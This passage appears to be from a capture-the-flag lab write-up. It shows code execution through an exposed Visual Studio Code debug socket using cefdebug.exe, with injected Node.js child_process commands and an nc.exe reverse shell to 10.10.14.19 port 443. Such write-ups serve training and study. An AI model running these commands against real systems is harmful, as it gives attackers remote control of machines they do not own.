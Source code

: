 ### POC

I’ll grab the `.exe` from the releases page, and upload it using my `impacket-smbserver`. Then running it shows the existence of a debug socket:

```
*Evil-WinRM* PS C:\programdata> .\cefdebug.exe
[2020/04/01 03:19:43:2657] U: There are 5 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2020/04/01 03:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/04/01 03:20:03:7841] U: There were 3 servers that appear to be CEF debuggers.
[2020/04/01 03:20:03:9873] U: ws://127.0.0.1:9102/1243eb8e-cffa-4cae-b922-5fa98b74e779
[2020/04/01 03:20:03:9873] U: ws://127.0.0.1:41509/967dc3c1-4c31-41fc-b9a0-b3dc8a41df33
[2020/04/01 03:20:03:9873] U: ws://127.0.0.1:3090/1fbbbd53-07f7-4e44-8d56-d80a9dc606a7

```

Note, for some reason with this Evil-WinRM shell, it throws those two lines of errors each time I run `cefdebug.exe`. It seems to work fine anyway. Over a `nc` shell, it doesn’t throw those errors. Your mileage may vary. I’ll not show them the rest of the post.

Those sockets only last a few seconds, so I’ll have to act quickly to make use of them. As the socket urls change in the examples I show, each time I ran `cefdebug.exe` with no args to get the current sockets, and then the commands shown.

To show I can run something, I’ll get the version:

```
*Evil-WinRM* PS C:\programdata> .\cefdebug.exe --code "process.version" --url ws://127.0.0.1:14393/5a73a31b-903d-41e8-b18d-9fb422e89234
[2020/04/01 03:24:14:1537] U: >>> process.version
[2020/04/01 03:24:14:1557] U: <<< v10.11.0

```

I can also see who is running with `whoami`. I tried to pick a directory that any user would be able to write to:

```
*Evil-WinRM* PS C:\programdata> .\cefdebug --code "process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\0xdf')" --url ws://127.0.0.1:64493/fd4b0ffa-a388-40da-b01a-62709102094b
[2020/04/01 03:28:40:0773] U: >>> process.mainModule.require('child_process').exec('whoami > C:\\windows\system32\spool\drivers\color\0xdf')
[2020/04/01 03:28:40:0930] U: <<< ChildProcess
*Evil-WinRM* PS C:\programdata> type C:\windows\system32\spool\drivers\color\0xdf
megacorp\cyork

```

### Shell

I’ll upload `nc.exe`, as I’m working through the 32-bit Visual Studio Code. Now spawn it:

```
*Evil-WinRM* PS C:\programdata> .\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.14.19 443 -e cmd')" --url ws://127.0.0.1:60404/830991c3-0f17-4025-9b2c-a0ef1c8675f2
[2020/04/01 03:39:52:7113] U: >>> process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.14.19 443 -e cmd')
[2020/04/01 03:39:52:7153] U: <<< ChildProcess

```

